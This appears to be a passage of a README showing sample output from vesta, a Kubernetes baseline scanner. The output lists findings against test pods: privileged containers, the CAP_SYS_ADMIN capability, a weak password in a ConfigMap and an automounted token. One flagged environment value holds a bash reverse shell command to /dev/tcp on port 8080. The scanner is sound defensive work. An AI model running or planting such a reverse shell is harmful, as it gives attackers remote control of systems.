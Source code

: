 4. 使用vesta检查Kubernetes的基线配置

```bash
2022/11/29 23:15:59 Start analysing
2022/11/29 23:15:59 Getting docker server version
2022/11/29 23:15:59 Getting kernel version

Detected 4 vulnerabilities

Pods:
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
| ID |           POD DETAIL           |             PARAM              |             VALUE              |         TYPE          | SEVERITY |          DESCRIPTION           |
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|  1 | Name: vulntest | Namespace:    | sidecar name: vulntest |       | true                           | Pod                   | critical | There has a potential          |
|    | default | Status: Running |    | Privileged                     |                                |                       |          | container escape in privileged |
|    | Node Name: docker-desktop      |                                |                                |                       |          | module.                        |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: vulntest |       | Token:Password123456           | Sidecar EnvFrom       | high     | Sidecar envFrom ConfigMap has  |
|    |                                | env                            |                                |                       |          | found weak password:           |
|    |                                |                                |                                |                       |          | 'Password123456'.              |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: sidecartest |    | MALWARE: bash -i >&            | Sidecar Env           | high     | Container 'sidecartest' finds  |
|    |                                | env                            | /dev/tcp/10.0.0.1/8080 0>&1    |                       |          | high risk content(score:       |
|    |                                |                                |                                |                       |          | 0.91 out of 1.0), which is a   |
|    |                                |                                |                                |                       |          | suspect command backdoor.      |
+----+--------------------------------+--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|  2 | Name: vulntest2 | Namespace:   | sidecar name: vulntest2 |      | CAP_SYS_ADMIN                  | capabilities.add      | critical | There has a potential          |
|    | default | Status: Running |    | capabilities                   |                                |                       |          | container escape in privileged |
|    | Node Name: docker-desktop      |                                |                                |                       |          | module.                        |
+    +                                +--------------------------------+--------------------------------+-----------------------+----------+--------------------------------+
|    |                                | sidecar name: vulntest2 |      | true                           | kube-api-access-lcvh8 | critical | Mount service account          |
|    |                                | automountServiceAccountToken   |                                |                       |          | and key permission are         |
|    |                                |                                |                                |                       |          | given, which will cause a      |
|    |                                |                                |                                |                       |          | potential container escape.    |
|    |                                |                                |                                |                       |          | Reference clsuterRolebind:     |
|    |                                |                                |                                |                       |          | vuln-clusterrolebinding |      |
|    |                                |                                |                                |                       |          | roleBinding: vuln-rolebinding  |
```